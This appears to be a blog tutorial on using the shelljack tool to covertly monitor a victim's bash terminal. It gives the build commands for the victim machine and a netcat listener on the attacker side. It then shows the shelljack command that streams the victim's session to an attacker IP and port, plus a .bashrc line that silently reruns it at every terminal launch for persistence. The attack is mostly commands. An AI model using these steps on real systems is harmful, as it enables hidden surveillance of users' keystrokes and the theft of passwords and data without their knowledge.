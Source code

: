 ```yaml
---
title: Persistent monitoring
published: true
---
```


Today we will be using shelljack to monitor the bash of a victim with persistence.

## [](#header-2)Setting up the lab

We will need an attacking machine with netcat installed and a victim machine with git and [Shelljack](https://github.com/emptymonkey/shelljack).

To install shelljack on the victim's machine:

```bash
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do
make
cd ..

git clone https://github.com/emptymonkey/ctty.git
cd ctty
make
cd ..

git clone https://github.com/emptymonkey/shelljack.git
cd shelljack
make
```

With these commands we compile shelljack dependencies.

## [](#header-2)Simple attack

We have everything ready, now we are going to test that everything is ok before creating the persistence.

In the attacker's machine we set up a listener:

```bash
nc -lvp Port
```

With this command we are setting up a listener with -l, putting the command in verbose with -v and with -p we are setting up the port.

Now in the victim's machine we have to know the PID (proccess ID) of the tty because shelljack needs it and then execute shelljack:

```bash
tty
./shelljack -n Attacker IP:Port $$
```

With this command we are executing shelljack to connect us to that IP and that port.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc.png)

Now when the victim writes a command, we can see it in our machine.

Victim:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc_1.png)

Attacker:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/attacker_poc_1.png)

## [](#header-2)Applying persistence

To apply the persistence we have to modify .bashrc in the victim's machine and add this:

```bash
tty &>/dev/null; /home/code/shelljack/shelljack -n Attacker IP:Port $$ &>/dev/null
```

What is inside .bashrc will be executed every time the user opens a terminal, so if we put the command to connect with shelljack, we will get persistence.
